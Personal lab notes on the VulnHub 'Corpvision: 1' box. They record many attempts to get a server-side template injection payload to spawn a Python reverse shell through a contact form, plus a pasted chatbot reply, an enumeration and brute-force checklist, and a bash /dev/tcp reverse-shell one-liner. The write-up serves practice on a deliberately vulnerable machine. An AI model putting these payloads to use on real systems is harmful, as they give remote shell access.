--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```

```http
curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```

Error in my payload

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
zsh: parse error near `)'
```


Time to find the typo....


semi Fixed version
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```


```go
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```


From ChatGPT
```http
curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen(\"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.56.123',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])'\").read()}}" \
 --data "w3lPhone=123123123123&w3lSender=DerpGuy@email.com&w3lSubject=mySub&w3lMessage=MyMessage"
```


```go
curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

```
DerpGuy@email? is the problem?


```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://192.168.56.123/" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Host: 192.168.56.123" \
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
  -H "Connection: Keep-alive" \
  --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.56.52\\\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])\"').read()}}" \
  --data "w3lMessage=20&w3lPhone=555-666-060&w3lSender=DerpGuy%40email.com&w3lSubject=1"

Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider 
Warning: "--output <FILE>" to save to a file.
```


For some weird reason I could not get the reverse shell to work.
I presume: 
- my curl command is correct
- Correct IP addresses
- no more '"' " " '' errors and \ escaping.
- correct additional data like message, phonenumber and subject

# This is my rant to ChatGPT 🤖😭😢🤗🫂🥹

```
It seems like the corpvision 1 VulnHub challenge is not "beginner" friendly after all.
Even the Corpvision:1 || VulnHub Walkthrough made by Techno Science doesn't have a solution, 
but his reverse shell does work, but no root flag obtained in his video... 
I give up, I will find a better challenge suited for me, this is beyond my current skill-level.
```

Totally fair, my friend.

**Corpvision: 1** *looks deceptively simple*, but between the unclear SSTI, lack of feedback, and potentially unstable web app behavior, it's *not beginner-friendly at all* — and frankly, even for intermediate users, it's frustrating when:

* Payloads don’t produce visible output
* No root flag is achievable
* Even walkthroughs don’t finish the job

You gave it a **solid try**, and that’s what matters. Honestly, recognizing when to move on is a **pro move**, not a failure.

---

## 🔁 Want Some Better Beginner-Friendly VulnHub Boxes?

Here are some much more forgiving and well-documented ones to build confidence:

### ‚úÖ **Basic Pentesting 1**

* No crazy tricks.
* Simple enumeration ‚Üí SMB/FTP ‚Üí SSH.
* Good for understanding attack flow.

### ‚úÖ **Mr. Robot 1**

* Popular and fun.
* Web-focused with clear flags.
* Teaches you about WordPress, file inclusion, etc.

### ‚úÖ **Photographer: 1**

* Beginner web exploitation.
* Reverse shell + privilege escalation.

### ‚úÖ **Kioptrix (Level 1 - 5 series)**

* Classic.
* Increasing difficulty.
* Realistic privilege escalation.

---

## Bonus Tip

If you're ever unsure whether an SSTI or RCE works, try sending a payload that writes to a file you can read, like:
```jinja
{{request.application.__globals__.__builtins__.__import__('os').system('echo pwned > /tmp/test.txt')}}
```
Then use LFI or directory access to check for that file.

---

You’ve already learned a lot just *by trying*, troubleshooting, and researching — that’s the **real CTF mindset**.
Let me know if you want a recommendation based on:

* Difficulty
* Focus area (web, OS, privilege escalation, enumeration)
* Specific tools (like Kali, LinPEAS, gobuster, etc.)

You're not giving up — you're just choosing smarter battles ⚔️
On to the next one ü´°

---
---

# Privilege Escalation ‚ùå

---
---

```
Disclaimer: Hacking without having permission is illegal. 
This channel/repository is strictly educational for learning about cyber-security in the areas of ethical hacking and penetration testing so that we can protect ourselves against real hackers.
```
# VulnHub Pentest Notes - [Corpvision: 1]  
🎯 **Target IP:** `192.168.56.123`  
üñ• **OS:** Linux  
üìÖ **Installation Date:** 2025-07-09  
‚úÖ **Completion Date:** 2025-07-27  
üìå **Status:** "Completed" based on tutorial/Walkthrough minus the reverse shell listening on port 4444

sessions:
- 2025-07-09 - Install and found the {{7*7}} vulnerability
- 2025-07-27 - At least 4 hours spend on troubleshooting the God damn curl ``reverse shell command``, but no cigar... Enough! I have better CTF-challenges to complete than this digital pig fodder 🐖🐷🐽

*Not lazy—life just happened. Something awful happened to my family, so it took a while to finish the last part of this challenge. Still, we are blessed ✝️. Might do a story time on my YouTube channel **Danielkaas94** in the future.*


---
## Resources & References  
üìå [VulnHub Link](https://www.vulnhub.com/entry/corpvision-1,691/)  
üìå [Corpvision:1 || VulnHub Walkthrough - YouTube Walkthrough](https://www.youtube.com/watch?v=OisRkF9Kr5E)  

---
# 🕵️ Enumeration  

### üõú Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### üåê Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
	- [ ] 22/TCP - SSH
	- [ ] 80/TCP- HTTP
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### üîê Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh ü´õ
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

### Reverse Shell Cheatsheet  
```bash
nc -lvnp <PORT>
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
